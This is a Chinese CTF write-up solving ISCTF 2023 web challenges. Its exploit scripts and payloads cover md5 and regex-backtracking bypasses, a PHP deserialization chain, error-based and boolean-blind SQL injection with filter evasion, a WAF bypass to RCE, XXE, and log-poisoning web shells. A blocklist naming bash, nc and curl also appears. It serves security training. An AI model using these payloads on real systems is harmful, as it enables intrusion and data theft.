# WEB# 绕进你心里
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php highlight_file (__FILE__ );error_reporting (0 );require 'flag.php' ;$str = (String)$_POST ['pan_gu' ];$num = $_GET ['zhurong' ];$lida1 = $_GET ['hongmeng' ];$lida2 = $_GET ['shennong' ];if ($lida1 !== $lida2 && md5 ($lida1 ) === md5 ($lida2 )){ echo "md5绕过了!" ; if (preg_match ("/[0-9]/" , $num )){ die ('你干嘛?哎哟!' ); } elseif (intval ($num )){ if (preg_match ('/.+?ISCTF/is' , $str )){ die ("再想想!" ); } if (stripos ($str , '2023ISCTF' ) === false ){ die ("就差一点点啦!" ); } echo $flag ; } } ?>
md5 的绕过不多说，数组直接奉上； intval() 的绕过也可以用数组，它在处理数组时，若数组为空，则返回 0，否则返回 1

下一关就是利用 preg_match() 的特性绕过， preg_match() 有一个回溯次数上限（可以类比于查询字符 / 字符串的次数上限）默认是 1000000，超过这个数则返回 false

exp：
1 2 3 4 5 import requestsurl = 'http://gz.imxbt.cn:20308/?hongmeng[]=1&shennong[]=2&zhurong[]=3' data = {"pan_gu" : 'ssss' *250000 + '2023ISCTF' } req = requests.post(url=url,data=data) print (req.text)
# 圣杯战争简单的反序列化，pop：
summon::__wakeup() -> artifact::__toString() -> prepare::__get() -> saber::__invoke()
exp:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 <?php class artifact public $excalibuer ; public $arrow ; public function __toString ( return $this ->excalibuer->arrow; } } class prepare public $release ; public function __get ($key $functioin = $this ->release; return $functioin (); } } class saber public $weapon ='php://filter/read=convert.base64-encode/resource=flag.php' ; public function __invoke ( include ($this ->weapon); } } class summon public $Saber ; public $Rider ; public function __wakeup ( echo $this ->Saber; } } $Summon = new summon ();$Artifact = new artifact ();$Prepare = new prepare ();$Saber = new saber ();$Summon ->Saber = $Artifact ;$Artifact ->excalibuer = $Prepare ;$Prepare ->release = $Saber ;echo (urlencode (serialize ($Summon )));?>

# webinclude
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 function string_to_int_array (str ){ const intArr = []; for (let i=0 ;i<str.length ;i++){ const charcode = str.charCodeAt (i); const partA = Math .floor (charcode / 26 ); const partB = charcode % 26 ; intArr.push (partA); intArr.push (partB); } return intArr; } function int_array_to_text (int_array ){ let txt = '' ; for (let i=0 ;i<int_array.length ;i++){ txt += String .fromCharCode (97 + int_array[i]); } return txt; } const hash = int_array_to_text (string_to_int_array (int_array_to_text (string_to_int_array (parameter))));if (hash === 'dxdydxdudxdtdxeadxekdxea' ){ window .location = 'flag.html' ; }else { document .getElementById ('fail' ).style .display = '' ; }
（这里扫出来一个 index.bak 文件，之前没扫出来是因为被校园网过滤掉了）
写一个逆向解密：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 const parameter2 = 'dxdydxdudxdtdxeadxekdxea' ;function text_to_int_array (text ){ let int_array = []; for (let i=0 ;i<text.length ;i++){ let charcode = text.charCodeAt (i) - 97 ; int_array.push (charcode) } return int_array; } function int_array_to_string (int_array2 ){ let text2 = '' ; for (let i=0 ;i<int_array2.length ;i+=2 ){ parta = int_array2[i]; partb = int_array2[i+1 ]; let charcode2 = parta * 26 + partb; text2 += String .fromCharCode (charcode2); } return text2; } answer = int_array_to_string (text_to_int_array (int_array_to_string (text_to_int_array (parameter2)))); console .log (answer);
得到 mihoyo

然后就是普通的文件包含了（之前 dirsearch 扫出来还有个 flag.php）


# easy_websitesql 注入，简单地 fuzz 一下，发现过滤了 or，and，select，空格等，对字符串的过滤可以用双写绕过，空格可以用 /**/ 绕过。这题考虑报错注入而非盲注
admin'/**/anandd/**/updatexml(1,concat(0x7e,database(),0x7e),1);# -> users
admin'/**/anandd/**/updatexml(1,concat(0x7e，(selselectect/**/group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema='users'),0x7e),1);# -> users
admin'/**/anandd/**/updatexml(1,concat(0x7e,(selselectect/**/group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='users'/**/anandd/**/table_schema='users'),0x7e),1);# -> user，password
admin'/**/anandd/**/updatexml(1,concat(0x7e,(selselectect/**/passwoorrd/**/from/**/users/**/limit/**/2,1),0x7e),1);# 这里因为输出限制导致 flag 没有输出完整，可以用 substring 或者 mid 之类的函数 flag {f5ea3f34-c0eb-45ac-b35d
admin'/**/anandd/**/updatexml(1,concat(0x7e,substring((selselectect/**/passwoorrd/**/from/**/users/**/limit/**/2,1),19,30),0x7e),1);# 45ac-b35d-623f62014c27}
# wafr
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 <?php error_reporting (0 );header ('Content-Type: text/html; charset=utf-8' );highlight_file (__FILE__ );if (preg_match ("/cat|tac|more|less|head|tail|nl|sed|sort|uniq|rev|awk|od|vi|vim/i" , $_POST ['code' ])){ die ("想读我文件？大胆。" ); } elseif (preg_match ("/\^|\||\~|\\$|\%|jay/i" , $_POST ['code' ])){ die ("无字母数字RCE？大胆！" ); } elseif (preg_match ("/bash|nc|curl|sess|\{|:|;/i" , $_POST ['code' ])){ die ("奇技淫巧？大胆！！" ); } elseif (preg_match ("/fl|ag|\.|x/i" , $_POST ['code' ])){ die ("大胆！！！" ); } else { assert ($_POST ['code' ]); }
这题是个纸老虎，\ 并没有过滤，可以照常读取文件

# 1z_Ssql过滤了 =，+，sleep，union，where
order by 测出来有三个字段（不过似乎没啥用？）
不过看过滤情况只能是布尔盲注

测试 admin' and if(length(database())>1,1,0);# 后发现有 hint 相关回显（虽然那 hint 没什么用就是了），是布尔盲注无疑了
（原题中好像是有附件的，但是这上面没有，只能看 wp 复现了：得到表名 users 和列名 username，password
直接上脚本
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 import requestsurl = 'http://gz.imxbt.cn:20511/' result = '' for i in range (1 ,50 ): left = 32 right = 127 mid = (left + right) >> 1 while left < right: payload = f'admin\' and if((ascii(substr((select group_concat(password) from bthcls.users),{i} ,1))>{mid} ),1,0)#' data = { 'username' : payload, 'password' : 1234 , 'submit' : 1 } req = requests.post(url=url,data=data) print (payload) if 'hint' in req.text: left = mid + 1 else : right = mid mid = (left + right) >> 1 result += chr (mid) print (result)
后面看 wp 才发现有信息泄露：
1 2 3 4 5 6 7 8 9 10 11 12 <?php highlight_file ("here_is_a_sercet.php" );function waf ($str $black_list = "762V08zk+xrmKxIFrdJIJj6ULvI8Lc0pX39LjDyIUb0eAGkZe4KQa87TJXuqnFw0u/669wWRsqYFya812FtULw9+tpiGlaH2gleDfDKzr+g=" ; if (preg_match ($black_list ,$str )){ die ("<h4>illegal words!</h4>" ); } return $str ; } ?>
base64 不能直接解密，可以在主页看看用的是什么方式加密

是一个 SM4 加密
直接找工具解密即可，waf 是 /union|=|+|sleep|benchmark|for|where|sys|innodb|is|null|like|/*|*//i
# Where is the flag标准的一句话木马，实际上想考察的是 linux 的一些命令
第一个 flag：当前目录下的 flag.php ISCTF {Y0u_6u
第二个 flag：根目录下一个 flag cceeded_in_f
第三个 flag：flag.sh 里面 ind1n9_f1ag}
这个不知道对不对，当时在做的时候第二个找都找不到，flag1 还是在 /flag 里面的
后面根据提示，在 xxx 中，猜想环境变量中应该是有的，毕竟 web 动态题生成 flag 还是很依赖环境变量来随机生成的
直接 system('env'); , 发现还真有

# ez_php这题看着没太大突破扣，那就找一下附件里面有没有什么可以利用的吧
注意到 register.php 中
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <?php include "utils/function.php" ; $config = include "utils/config.php" ; $user_xml_format = "<?xml version='1.0'?> <userinfo> <user> <username>%s</username> <password>%s</password> </user> </userinfo>" ; extract ($_REQUEST ); if (empty ($username )||empty ($password )) die ("Username or password cannot be empty XD" ); if (!preg_match ('/^[a-zA-Z0-9_]+$/' , $username )) die ("Invalid username. :(" ); if (is_user_exists ($username , $config ["user_info_dir" ])) die ("User already exists XD" ); $user_xml = sprintf ($user_xml_format , $username , $password ); register_user ($username , $config ['user_info_dir' ], $user_xml );
存在变量覆盖函数，可以试着往这个点打
同时发现，用户名和密码是以 xml 形式来存储的，根据这个可以试着用 xxe 打
由于 function.php 中存在这样一个函数
1 2 3 4 5 6 7 function get_user_record ($username , $user_info_dir { $user_info_xml = file_get_contents ($user_info_dir .$username .'/' .$username .'.xml' ); $dom = new DOMDocument (); $dom ->loadXML ($user_info_xml , LIBXML_NOENT | LIBXML_DTDLOAD); return simplexml_import_dom ($dom ); }
这样可以利用 file:// 协议去读取 flag
login.php 中：
1 2 3 4 5 6 7 8 9 10 <?php include "utils/function.php" ; $config = include "utils/config.php" ; $username = $_REQUEST ['username' ]; $password = $_REQUEST ['password' ]; if (empty ($username )||empty ($password )) die ("Username or password cannot be empty XD" ); if (!is_user_exists ($username , $config ["user_info_dir" ])) die ("Username error" ); $user_record = get_user_record ($username , $config ['user_info_dir' ]); if ($user_record ->user->password != $password ) die ("Password error for User:" .$user_record ->user->username); header ("Location:main.html" );
我们可以通过输入错误的密码来让我们的注入得到回显
先抓个包，注册一个账号

然后故意输错密码：

成功回显，可以直接拿 flag 了
# ez_ini根据题目可以用 .user.ini 进行文件包含，由于在之前的测试中测出许多关键符号被过滤，所以只能放弃上传🐴，转而用文件包含漏洞
这里我们可以包含日志文件，利用 UA 传🐴

然后访问 upload.php
